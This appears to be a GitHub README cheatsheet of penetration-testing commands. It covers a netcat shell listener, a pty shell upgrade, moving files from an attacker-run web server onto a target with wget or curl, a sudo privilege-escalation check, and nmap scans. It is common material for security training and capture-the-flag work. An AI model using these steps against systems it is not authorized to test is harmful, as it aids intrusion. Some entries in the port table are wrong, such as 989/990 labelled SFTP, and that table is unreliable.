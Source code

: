 # h4x0r-cheatsheet

**Open a port to listen for a connection from a remote host**  
```nc -lvnp <desired port>```

**Convert basic shell into bash**  
```python -c 'import pty; pty.spawn("/bin/bash")'```

**Download files to remote host via shell**  
Local (Attacker): ```python -m SimpleHTTPServer 80```  _**OR**_ ```python3 -m http.server 80```
Remote (Target): ```wget <your ip>/desired.file``` _**OR**_ ```curl <your IP>/desired.file```

**Check which files the current user can run as root (possible PrivEsc)**  
```sudo -l```

**Display all running processes with owner**  
```ps aux```

**Display all processes listening on ports**  
```netstat -lntup```  
	**Specific application**  
	```netstat -lntup | grep "<appname>"```  
	**Specific port**  
	```netstat -lntup | grep ":<port>"```  
_**OR**_  
```ss -lntu```

**Display all open Internet and network files**  
```lsof -i```

## nmap commands
**Scan for common open ports**  
```nmap <target ip>```

**Scan for ports at ultra high speed**  
```nmap -T5 <target ip>```

**Scan steathily (slower)**  
```nmap -sS <target ip>```

**Scan specific ports for versions and possible vulns**  
```nmap -sC -sV -p <port>(,<port>,...)```

**Scan for OS**  
```nmap -O <target ip>```

**Get more verbose output**  
```nmap -vvv <target ip>```

**Save to file**  
```nmap -oN <filename> <target ip>```

## common ports
| Number | Service | Protocol |
| ------ | ------- | -------- |
| 20,21  | FTP     | TCP      |
| 22     | SSH     | TCP/UDP  |
| 23     | Telnet  | TCP      |
| 25     | SMTP    | TCP      |
| 53     | DNS     | TCP/UDP  |
| 80     | HTTP    | TCP      |
| 110    | POP3    | TCP      |
| 143    | IMAP4   | TCP/UDP  |
| 161,162 | SNMP   | TCP      |
| 443    | HTTPS   | TCP/UDP  |
| 989,990 | SFTP   | TCP      |
| 3389   | RDP     | TCP/UDP  |
